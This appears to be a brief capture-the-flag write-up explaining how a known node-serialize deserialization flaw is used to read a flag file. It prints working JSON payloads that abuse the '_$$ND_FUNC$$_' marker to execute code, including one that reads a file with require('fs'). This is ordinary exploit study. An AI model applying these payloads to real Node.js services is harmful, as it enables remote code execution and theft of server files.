 By downloading the .tar.gz file and running `npm install` we see `npm` triggering on node-serialize with:
https://github.com/advisories/GHSA-q4v7-4rhw-9hqm

This leads to https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/ where we discover that we can invoke functions like this:

```
{
 "hello": "_$$ND_FUNC$$_function(){return 'world'}()"
}
```

All we have to do now is to use `fs` and `readFileSync` to get the file contents:

```
{
 "hello": "_$$ND_FUNC$$_function(){return require('fs').readFileSync('flag.txt','utf8') }()"
}
```